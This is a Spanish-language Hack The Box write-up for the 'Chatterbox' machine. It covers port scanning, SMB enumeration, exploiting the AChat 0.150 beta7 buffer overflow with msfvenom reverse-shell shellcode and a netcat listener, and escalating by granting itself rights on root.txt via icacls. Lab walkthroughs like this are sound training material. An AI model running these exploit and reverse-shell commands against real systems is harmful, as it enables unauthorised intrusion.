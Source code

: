 ```yaml
---
layout: post
title: ChatterBox
date: 2023-02-28
description:
img:
fig-caption:
tags: [OSCP]
---
```

___

<center><img src="/writeups/assets/img/Chatterbox-htb/Chatterbox.png" alt="" style="height: 394px; width:520px;"></center>

***

# Conocimientos

* Abuso de Achat 0.150 beta7

* Análisis de ACLs (Escalada de Privilegios)

***

# Reconocimiento

## Escaneo de puertos con nmap

### Descubrimiento de puertos abiertos

```null
nmap -p- --open --min-rate 5000 -n -Pn -sS 10.10.10.74 -oG openports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-28 09:17 GMT
Nmap scan report for 10.10.10.74
Host is up (1.5s latency).
Not shown: 59517 closed tcp ports (reset), 6007 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 17.54 seconds
```

### Escaneo de versión y servicios de cada puerto

```null
nmap -sCV -p135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 10.10.10.74 -oN portscan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-28 09:18 GMT
Nmap scan report for 10.10.10.74
Host is up (0.26s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h39m59s, deviation: 2h53m14s, median: 4h59m58s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-02-28T14:19:31
|_  start_date: 2023-02-28T14:15:30
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-02-28T09:19:30-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.45 seconds
```

## Puerto 135 (RPC)

No tengo acceso con un null session

```null
rpcclient -U "" 10.10.10.74 -N
rpcclient $> enumdomusers
do_cmd: Could not initialise samr. Error was NT_STATUS_ACCESS_DENIED
```

## Puerto 445 (SMB)

Con crackmapexec aplico un escaneo para ver dominio, hostname y versiones

```null
crackmapexec smb 10.10.10.74
SMB         10.10.10.74     445    CHATTERBOX       [*] Windows 7 Professional 7601 Service Pack 1 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True)
```

Añado el dominio al ```/etc/hosts```. No puedo listar los recursos compartidos

```null
smbmap -H 10.10.10.74 -u 'null'
[!] Authentication error on 10.10.10.74
```

Tampoco es vulnerable al ```etenalblue```

```null
python2 checker.py 10.10.10.74
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is patched
```

## Puerto 9955 (Achat)

Existen varios exploits públicos para determinadas versiones

```null
searchsploit achat
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                                                                                                                                    | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                                                                                                                       | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities                                                                                                          | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                                                                                                                            | php/webapps/24647.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

```null
searchsploit -m windows/remote/36025.py
mv 36025.py exploit.py
```

Creo un nuevo shellcode con ```msfvenom```

```null
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Pongo la IP de lá máquina en el script y gano acceso en una sesión de ```netcat``` y puedo ver la primera flag

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.74] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Users\Alfred\Desktop>type user.txt
type user.txt
0802babac1235d7a7f9dfa03760bb88e
```

# Escalada

El usuario actual tiene privilegios full sobre el escritorio del Administrador

```null
C:\Users\Administrator>icacls Desktop
icacls Desktop
Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        CHATTERBOX\Administrator:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

Le asigno un ACL a la flag para poder verla

```null
C:\Users\Administrator\Desktop>icacls root.txt /grant Alfred:F
icacls root.txt /grant Alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files
```

```null
C:\Users\Administrator\Desktop>type root.txt
type root.txt
37d960f21ba0635133c4248b5cfb7bee
```